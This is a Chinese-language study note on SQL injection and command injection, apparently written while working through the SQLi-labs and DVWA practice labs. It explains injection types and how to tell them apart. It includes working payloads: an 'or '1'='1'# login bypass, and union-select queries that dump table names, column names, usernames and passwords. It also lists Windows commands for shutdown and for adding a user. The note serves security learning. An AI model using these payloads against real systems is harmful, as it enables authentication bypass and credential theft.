# 一、 SQL注入原理及利用

## **1.1** SQL注入产生的原因

当Web应用向后台数据库传递SQL语句进行数据库操作时。如果对用户输入的参数没有经过严格的过滤处理，那么攻击者就可以构造特殊的SQL语句，直接输入数据库引擎执行，获取或修改数据库中的数据。

## **1.2** **SQL**注入的本质

其实就是把用户输入的数据当做代码来执行，违背了“数据与代码分离”的原则。

## **1.3** **SQL**注入的两个关键点

1、用户能够控制输入的内容；

2、Web应用把用户输入的内容带入到数据库中执行

##  **1.4 SQL**注入的危害

1盗取网站的敏感信息

2绕过网站后台认证

•  后台登录语句：

•  SELECT * FROM admin WHERE username = 'user' and password = 'pass'

•  万能密码：'or '1' = '1' #

**例如：**Select * from users where username=’ ‘ or ‘1’=’1’#’ and password=’1234’ (#作用是注释掉后面的语句) 注释也就是后面的语句相当于没有

上面的语句就相当于：

Select * from users where username=’ ‘ or ‘1’=’1’

Username为空，表中一定不存在，所以为假。Or后面为真。 结果是真

**这样就可以成功登录，绕过了后台的登录认证（存在SQL****注入漏洞）**

**这样登录进去的用户是users****表id****为1****的用户**

 

mySQL注释：#  --空格 --+ %23 四种

 

## **1.5 SQL**注入的分类

根据注入位置分类：GET型、POST型、Head头注入、cookies注入、ua头注入

根据反馈结果分类：有回显（显错注入）、无回显（盲注）

根据数据类型分类：

 数字型：输入的参数为整型，如id、年龄、页码等

 字符型：输入的参数为字符串

数字型与字符型最大的区别在于：数字型不需要闭合，而字符串型一般需要闭合。

 

Id=11 数字型

id=’11’ 字符型

 

## **1.6 SQL**注入流程

### **1.寻找注入点**

 Sql 跟数据库有关，找与数据库有交互的地方：注册、登录、搜索框、修改个人信息

https ://www.hetianlab.com/pages/search.jsp?wk=sql

格式 ?xx=yyyyy 是可能出现SQL注入漏洞的

在分类里这叫Get型

 

### **2.**  **判断**

 先判断是字符型还是数字型，数字型不需要判断闭合方式

 



加一串字母仍然有显示，说明它是字符型

页面有报错：数字型 无报错：字符型



只认识数字，除了数字不认识别的，说明第二关是数字型

 

**再判断闭合方式**

?id=1asdf’

看报错信息



​                              

说明此为单引号闭合

单引号 双引号 括号都是成双出现的

​      Id前面为什么要加？ get方式传参 传递叫id的参数，值为=后面的

 

后面输入空格--空格 注释掉后面自带的引号 又恢复

 

看一下他的第三关：



？Id=1asdf还能运行说明是字符型

后面加一个引号



最左边的单引号和最后的单引号是报错范文，把自己输入的1asdf’涂掉，右边剩了’) 则’)是他的闭合方式



右边再加一个）然后空格--空格 恢复正常显示

Limit 0,1：limit是限制输出条数，0是起始位置或者偏移量，1是限制条数。偏移量为0，即不偏移，从头到尾正常显示，只限制输出1条

Limit 1,1 显示第二条id=2的

Limit2,2 显示第三第四条id=3id=4

 

### **3.**  **验证**

?id=1’ and 1=1  注意有空格

?id=1’ and 1=2

 

SQLilabs第一关

 

正常显示

 

1=2 不显示 说明我们输入的内容数据库能够执行了

 

### **4.**  **判断列数和回显位**

判断列数用：order by

判断回显位用：union



Order by password是按password这一列排序，和order by 3 得到的结果一样

当输入order by 4 



报错



10不行 5也不行 3可以

4不行 说明是3列



再判断回显位

Union重点在于前面和后面列数要相同，select * from users union select 1,2,3,4;是显示不出来的，这也是为什么判断列数

 

1.两个查询返回的列数必须型相同。

2.两个select语句对应列所返回的数据类型必须是相同或者是兼容的

 

把id=1改成id=-1因为它有limit 0,1 只显示一条内容，我们要让他显示后面的union select 1,2,3 而不是id=1 所以改成id=-1 



1在页面上是不显示的

 

### 5.取数据

 数据库名字：database()

 

根据库名查表名：

?id=-1' union select 1,(select table_name from information_schema.tables where table_schema=database()),3 --+

报错：Subquery returns more than 1 row 结果超过一行 显示不了 

有两个办法：

一是：?id=-1' union select 1,(select table_name from information_schema.tables where table_schema=database() limit 0,1),3 --+

?id=-1' union select 1,(select table_name from information_schema.tables where table_schema=database() limit 1,1),3 --+

二是直接使用group_concat函数

?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 --+

表名就都出来了

 

//information_schema

 

查列名

  把table改成column 在后面加上and table_name=’users’

?id=-1'union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),3 --+

 

 

取具体数据

看一下他的username 和password

?id=-1' union select 1,(select group_concat(username) from users),3 --+

?id=-1' union select 1,group_concat(username),group_concat(password) from users --+

 

 

 

 

 

# 二、命令执行漏洞

## 命令连接符

\- `cmd1|cmd2` 是管道（|）连接方式，将 cmd1 的输出作为 cmd2 的输入进行处理。

\- `cmd1;cmd2` 是分号（;）连接方式，按顺序执行两个命令，无论前一个命令的结果如何。

\- `cmd1&cmd2` 是后台执行的方式，两个命令在后台同时执行。

\- `cmd1||cmd2`是一种条件执行命令的方式。

\- 如果`cmd1`命令执行成功，则停止执行后续命令（`cmd2`）。

\- 如果`cmd1`命令执行失败，则继续执行后续命令（`cmd2`）。

 

Cmd1&&cmd2

先执行 `cmd1`，只有在 `cmd1` 成功执行后，才会继续执行 `cmd2`。

如果 `cmd1` 执行失败，则不会执行 `cmd2`。

 

 

## 常用cmd命令

Whoami 查看当前用户名

Shutdown -s -t 0 关机

Net user [username] [password] /add 增加一个用户名为username密码为password的新用户

Type [file_name] 查看filename文件内容

 

 ## sqlmap跑DVWA的sql注入



 

## DVWA防御 medium





 

Database（）在这里会返回dvwa这四个字符

0x64767761是dvwa的16进制

## Dvwa防御 high



## Impossible



 

 

 

 